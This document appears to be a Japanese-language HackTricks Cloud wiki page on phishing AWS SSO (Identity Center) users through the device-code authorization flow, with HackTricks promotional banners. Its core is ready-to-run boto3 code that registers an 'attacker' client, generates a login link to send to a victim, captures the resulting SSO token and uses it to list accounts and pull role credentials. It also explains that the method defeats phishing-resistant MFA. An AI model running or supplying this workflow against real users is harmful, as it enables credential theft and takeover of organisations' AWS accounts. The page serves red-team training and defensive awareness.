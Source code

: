 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS デバイスコードフィッシング

最初に[**このブログ記事**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)で提案されたように、AWS SSOを使用しているユーザーに**リンク**を送信することが可能で、**ユーザーが承認**すると、攻撃者は**ユーザーを偽装するためのトークン**を取得し、**Identity Center**でユーザーがアクセスできるすべてのロールにアクセスできるようになります。

この攻撃を実行するための要件は次のとおりです：

* 被害者は**Identity Center**を使用している必要があります
* 攻撃者は被害者が使用している**サブドメイン**を知っている必要があります `<victimsub>.awsapps.com/start`

前述の情報だけで、**攻撃者はユーザーにリンクを送信**でき、**承認されると**攻撃者は**AWSユーザー**アカウントへのアクセスを得ることができます。

### 攻撃

1. **サブドメインの特定**

攻撃者の最初のステップは、被害者の会社がIdentity Centerで使用しているサブドメインを特定することです。これは**OSINT**または**推測 + ブルートフォース**を使用して行うことができ、ほとんどの会社はここで自社名またはそのバリエーションを使用しています。

この情報をもとに、Identity Centerが設定されたリージョンを取得することが可能です：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **被害者のリンクを生成して送信する**

次のコードを実行して、被害者が認証できるAWS SSOログインリンクを生成します。\
デモのために、このコードをPythonコンソールで実行し、後でトークンを取得するためにいくつかのオブジェクトが必要になるので、終了しないでください：
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
生成したリンクを被害者に送信し、あなたの素晴らしいソーシャルエンジニアリングスキルを使いましょう！

3. **被害者がそれを受け入れるのを待つ**

被害者が**すでにAWSにログインしている**場合、権限を付与することを受け入れるだけで済みます。ログインしていない場合は、**ログインしてから権限を付与することを受け入れる必要があります**。\
これが現在のプロンプトの見た目です：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSOアクセストークンを取得する**

被害者がプロンプトを受け入れた場合、このコードを実行して**ユーザーを偽装してSSOトークンを生成します**：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSOアクセストークンは**8時間有効**です。

5. **ユーザーを偽装する**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### フィッシング不可能なMFA

以前の攻撃が**「フィッシング不可能なMFA」（webAuth）が使用されていても機能する**ことを知るのは楽しいです。これは、以前の**ワークフローが使用されているOAuthドメインを離れないため**です。他のフィッシング攻撃のようにユーザーがログインドメインを偽装する必要があるのではなく、デバイスコードワークフローが準備されているため、**デバイスによって知られているコード**があり、ユーザーは異なるマシンでもログインできます。プロンプトを受け入れると、デバイスは**初期コードを知っているだけで**、ユーザーのために**資格情報を取得する**ことができます。

詳細については、[**この投稿を確認してください**](https://mjg59.dreamwidth.org/62175.html)。

### 自動ツール

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 参考文献

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
